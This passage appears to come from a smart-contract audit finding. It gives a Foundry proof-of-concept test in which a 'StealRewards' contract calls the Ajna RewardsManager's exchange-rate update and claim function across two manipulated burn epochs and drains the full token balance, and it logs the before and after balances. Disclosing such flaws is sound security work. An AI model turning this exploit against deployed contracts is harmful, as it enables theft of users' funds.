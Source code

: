     function steal() external {
        toSteal = ajnaToken.balanceOf(address(rewardsManager));

        uint256[] memory depositIndexes = new uint256[](1);
        depositIndexes[0] = 0;

        // setup the `prevBucketExchangeRate`
        _currentBurnEpoch = 1;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);

        _currentBurnEpoch = 2;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);
    }

}

contract StealRewardsTest is Test {
    address internal _ajna = 0x9a96ec9B57Fb64FbC60B423d1f4da7691Bd35079;
    ERC20 internal _ajnaToken;

    IRewardsManager  internal _rewardsManager;
    IPositionManager internal _positionManager;
    ERC20PoolFactory internal _poolFactory;

    function setUp() external {
        vm.createSelectFork(vm.envString("ETH_RPC_URL"));

        _ajnaToken       = ERC20(_ajna);
        _poolFactory = new ERC20PoolFactory(_ajna);
        _positionManager = new PositionManager(_poolFactory, new ERC721PoolFactory(_ajna));
        _rewardsManager  = new RewardsManager(_ajna, _positionManager);

        deal(_ajna, address(_rewardsManager), 100_000_000 * 1e18);
        assertEq(_ajnaToken.balanceOf(address(_rewardsManager)), 100_000_000 * 1e18);
    }

    function testStealRewards() external {
        StealRewards stealRewards = new StealRewards(_ajnaToken, _rewardsManager);
        uint rewardsManagerBalance = _ajnaToken.balanceOf(address(_rewardsManager));

        emit log_named_uint("Rewards balance before", rewardsManagerBalance);
        emit log_named_uint("Hacker balance before ", _ajnaToken.balanceOf(address(stealRewards)));

        stealRewards.steal();

        assertEq(_ajnaToken.balanceOf(address(stealRewards)), rewardsManagerBalance);
        assertEq(_ajnaToken.balanceOf(address(_rewardsManager)), 0);

        emit log_named_uint("Rewards balance after ", _ajnaToken.balanceOf(address(_rewardsManager)));
        emit log_named_uint("Hacker balance after  ", _ajnaToken.balanceOf(address(stealRewards)));
    }

}

Tools Used

Foundry, IntelliJ
Recommended Mitigation Steps
